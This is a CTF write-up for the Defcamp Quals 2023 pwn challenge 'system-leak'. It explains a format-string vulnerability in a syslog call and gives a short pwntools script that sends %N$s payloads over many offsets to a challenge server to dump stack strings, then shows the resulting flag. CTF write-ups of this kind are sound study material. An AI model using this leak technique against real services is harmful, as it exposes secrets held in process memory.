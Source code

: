 ```yaml
---
title: system-leak
date: 2023-10-22T09:56:31+03:00
description: Writeup for system-leak [Defcamp Quals 2023]
type: writeup
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Leak the entire system, but wait this is not zeenbleed.

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec syslog
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols	  No	0		4		syslog
```
All protections enabled! Wow! When I saw this initially I thought this will be a hard binary to exploit. So I went on and played with ``system-write`` first, lol. Please check that writeup for a full run-down of the binary.

The important thing to notice for this binary is the fact that ``syslog`` uses format strings. We have an arbitrary read through format string vulnerabilities. Since the description hints to leaking the whole system, the initial idea I had was to leak the whole stack and hope we get some ENV strings with the flag in them.

```c
	printf("Enter the message to write to syslog: ");
	fgets(local_218,0x200,stdin);
	fgets(local_218,0x200,stdin);
	syslog((int)local_222,local_218);
	closelog();
```

### Solution

The solution is just that - leaking strings from the stack for fun. We manually try different offsets and print strings in batches. I made a really quick, stupid script to do that:
```py
#!/usr/bin/env python3

from pwn import *

#target = process("./syslog")
target = remote("35.246.203.171", 31245)

lines = []

# Play around with this offset, it might crash at certain offsets because addresses are not dereferencible
for i in range(120, 1600):
    target.sendline(b"1")
    target.sendline(b"1") # priority

    payload = "%{}$s".format(i).encode()

    target.sendline(payload)

    target.sendline(b"2")
    target.recvuntil(b'syslog')
    lines.append(target.recvline())
    print(lines[-1])

print(lines)
target.interactive()
```

#### Flag

```CTF{ab8f8dff1ca8d424d56d3e8b41296cba0ba4e2a7985927b510fe2734dacee073}```
